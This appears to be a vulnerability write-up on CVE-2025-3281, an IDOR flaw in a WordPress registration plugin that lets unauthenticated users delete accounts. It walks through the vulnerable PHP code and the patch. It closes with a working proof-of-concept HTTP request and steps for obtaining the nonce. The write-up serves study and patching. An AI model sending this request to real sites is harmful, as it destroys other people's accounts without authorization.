

<!--more-->

## CVE & Basic Info

The **User Registration & Membership – Custom Registration Form, Login Form, and User Profile** plugin for WordPress contains an **Insecure Direct Object Reference (IDOR)** vulnerability in all versions up to **4.2.1**, within the `create_stripe_subscription()` function, due to **missing validation of the user-controlled `member_id` parameter**.

This allows an **unauthenticated attacker** to **delete arbitrary user accounts** created via this plugin.

* **CVE ID**: [CVE-2025-3281](https://www.cve.org/CVERecord?id=CVE-2025-3281)
* **Vulnerability Type**: Insecure Direct Object References (IDOR)
* **Affected Versions**: <= 4.2.1
* **Patched Versions**: 4.2.2
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Contributor
* **Product**: [WordPress User Registration Plugin](https://wordpress.org/plugins/user-registration/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – User Registration**:

  * `4.2.1` – **vulnerable**
  * `4.2.2` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

According to the CVE description, the vulnerability resides in the `create_stripe_subscription()` function of the plugin. This function handles the creation of Stripe subscriptions for users after registration.

```php {title="AJAX.php v4.2.1" data-open=true hl_lines=[5,23]}
public static function create_stripe_subscription() {
    ur_membership_verify_nonce( 'ur_membership_confirm_payment' );
    $customer_id       = isset( $_POST['customer_id'] ) ? $_POST['customer_id'] : '';
    $payment_method_id = isset( $_POST['payment_method_id'] ) ? sanitize_text_field( $_POST['payment_method_id'] ) : '';
    $member_id         = absint( wp_unslash( $_POST['member_id'] ) ); 

    $is_user_created = get_user_meta( $member_id, 'urm_user_just_created' );
    if ( ! $is_user_created ) {
        wp_send_json_error(
            array(
                'message' => __( 'Invalid Request.', 'user-registration' ),
            )
        );
    }

    $stripe_service      = new StripeService();
    $form_response       = isset( $_POST['form_response'] ) ? (array) json_decode( wp_unslash( $_POST['form_response'] ), true ) : array();
    $stripe_subscription = $stripe_service->create_subscription( $customer_id, $payment_method_id, $member_id );

    if ( $stripe_subscription['status'] ) {
        wp_send_json_success( $stripe_subscription );
    } else {
        wp_delete_user( absint( $member_id ) );
        wp_send_json_error(
            array(
                'message' => __( "Something went wrong when updating users payment status" )
            )
        );
    }
}
```

The function performs a nonce check using `ur_membership_verify_nonce( 'ur_membership_confirm_payment' );`.

Searching for the keyword `ur_membership_confirm_payment`:


The nonce is created with the key `_confirm_payment_nonce`.

This key and value are included in the `/membership-registration/?` endpoint.


At the beginning of the function, data is taken directly from `$_POST`, including `customer_id`, `payment_method_id`, and especially `member_id`, which is taken directly from the request without any ownership or permission validation.

```php
$member_id = absint( wp_unslash( $_POST['member_id'] ) );
```

Next, the function checks whether the user associated with `member_id` has the `urm_user_just_created` meta key:

```php
$is_user_created = get_user_meta( $member_id, 'urm_user_just_created' );
if ( ! $is_user_created ) {
    wp_send_json_error( ... );
}
```

This means that as long as the user was created through the plugin’s registration flow, the condition passes — **there is no check to ensure that the requester is authorized to act on that user**.

> [!INFO]
> Note: the user must be registered via the **Registration** form at
> [http://localhost/registration/](http://localhost/registration/), not via **Membership Registration** at
> [http://localhost/membership-registration/](http://localhost/membership-registration/), for `$is_user_created` to be valid.

Next, the function calls:

```php
$stripe_subscription = $stripe_service->create_subscription(
    $customer_id,
    $payment_method_id,
    $member_id
);
```

The return value determines the next execution path. If `$stripe_subscription['status']` is `false`, the following code deletes the user corresponding to `$member_id`.

```php
if ( $stripe_subscription['status'] ) {
    wp_send_json_success( $stripe_subscription );
} else {
    wp_delete_user( absint( $member_id ) );
    wp_send_json_error(
        array(
            'message' => __( "Something went wrong when updating users payment status" )
        )
    );
}
```

> [!TIP]
> To force `$stripe_subscription['status']` to be `false`, an attacker can **omit or provide invalid values for `$customer_id` and `$payment_method_id`**, causing the subscription creation to fail and triggering the error branch.

This leads to a severe **IDOR (Insecure Direct Object Reference)** vulnerability, allowing arbitrary deletion of user accounts.

The patch in version `4.2.2` adds **permission checks before performing operations on the user**, preventing IDOR:

```php
if ( ! current_user_can( 'edit_user', $member_id ) ) {
	wp_send_json_error(
		array(
			'message' => __( 'You are not allowed to edit this user.', 'user-registration' ),
		)
	);
}
```

* Before calling `$stripe_service->create_subscription()`, the function verifies whether the requester has permission to edit the user with `member_id`.
* If not, it returns an error and **does not delete the user**.



This ensures that only authorized users can trigger operations that lead to `wp_delete_user()`, effectively closing the **IDOR vulnerability**.

> [!NOTE]
> The Membership feature is disabled by default. You must enable it at
> [http://localhost/wp-admin/admin.php?page=user-registration-dashboard#/features](http://localhost/wp-admin/admin.php?page=user-registration-dashboard#/features)

---

The plugin registers multiple action hooks:

```php {title="AJAX.php v4.2.1" data-open=true hl_lines=[11,23,26]}
public static function add_ajax_events() {
    $ajax_events = array(
        'create_membership'          => false,
        'update_membership'          => false,
        'delete_memberships'         => false,
        'update_membership_status'   => false,
        'create_member'              => false,
        'update_member'              => false,
        'delete_members'             => false,
        'confirm_payment'            => true,
        'create_stripe_subscription' => true,
        'register_member'            => true,
        'validate_coupon'            => true,
        'cancel_subscription'        => false,
        'get_group_memberships'      => false,
        'create_membership_group'    => false,
        'delete_membership_groups'   => false,
        'verify_pages'               => false,
        'validate_pg'                => false,
    );
    foreach ( $ajax_events as $ajax_event => $nopriv ) {
        add_action( 'wp_ajax_user_registration_membership_' . $ajax_event, array( __CLASS__, $ajax_event ) );
        if ( $nopriv ) {

            add_action(
                'wp_ajax_nopriv_user_registration_membership_' . $ajax_event,
                array(
                    __CLASS__,
                    $ajax_event,
                )
            );
        }
    }
}
```


In the `$ajax_events` list, **`create_stripe_subscription`** is marked as `true`:

```php
'create_stripe_subscription' => true,
```

This means the plugin registers both:

```php
wp_ajax_user_registration_membership_create_stripe_subscription
wp_ajax_nopriv_user_registration_membership_create_stripe_subscription
```

* `wp_ajax_*` → for authenticated users
* `wp_ajax_nopriv_*` → for **unauthenticated users**

Therefore, **anyone can send a request to this endpoint**, including unauthenticated attackers. When the request is processed:

The `create_stripe_subscription` action becomes an **IDOR exploitation point**, allowing deletion of any user created via the plugin, even without authentication.

## Flow


flowchart TD
A["Attacker (Unauthenticated)"]
--> B["Send POST request to admin-ajax.php?action=user_registration_membership_create_stripe_subscription"]

B --> C["WordPress routes request via wp_ajax_nopriv_*"]
C --> D["create_stripe_subscription() executed"]

D --> E["Read POST parameters (member_id, customer_id, payment_method_id)"]

E --> F["Check get_user_meta(member_id, 'urm_user_just_created')"]

F -->|Not exists| G["Request rejected"]
F -->|Exists| H["Call create_subscription()"]

H --> I{"Stripe subscription valid?"}

I -->|Yes| J["Return success response"]
I -->|No| K["wp_delete_user(member_id)"]

K --> L["Target user deleted"]


## Proof of Concept (PoC)

1. Visit `/membership-registration/?` and obtain the `_confirm_payment_nonce` value from the response.
2. Send the request:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_test_cookie=WP%20Cookie%20check; isSidebarEnabled=true; __stripe_mid=f13365af-449c-4412-b77c-7213da0dbe814d9925; __stripe_sid=7323a342-4cac-4124-9d98-a02abd109a8cd8d073; wp_lang=en_US

action=user_registration_membership_create_stripe_subscription&_ajax_nonce=472f729de7&member_id=member_id_to_delete
```

## Conclusion

The **CVE-2025-3281** vulnerability arises because `create_stripe_subscription()` allows unauthenticated access while directly processing user-controlled input. The lack of permission checks on `member_id`, combined with exposure through `wp_ajax_nopriv_*`, enables attackers to delete user accounts arbitrarily.

The patch in version **4.2.2** fixes this by enforcing proper authorization checks using `current_user_can`, fully preventing the IDOR issue.

## Key Takeaways

* Nonces do not replace proper authorization checks.
* `wp_ajax_nopriv_*` endpoints must be strictly controlled.
* Sensitive actions (user deletion, state changes) should never rely solely on client-supplied data.
* Always enforce permission checks (`current_user_can`) when modifying user resources.
* IDOR vulnerabilities often stem from missing business-logic authorization, not just technical mistakes.

## References

[IDOR](https://book.hacktricks.wiki/en/pentesting-web/idor.html)

[WordPress User Registration Plugin <= 4.2.1 is vulnerable to Insecure Direct Object References (IDOR)](https://patchstack.com/database/wordpress/plugin/user-registration/vulnerability/wordpress-user-registration-membership-plugin-4-2-1-insecure-direct-object-reference-to-unauthenticated-limited-user-deletion-vulnerability)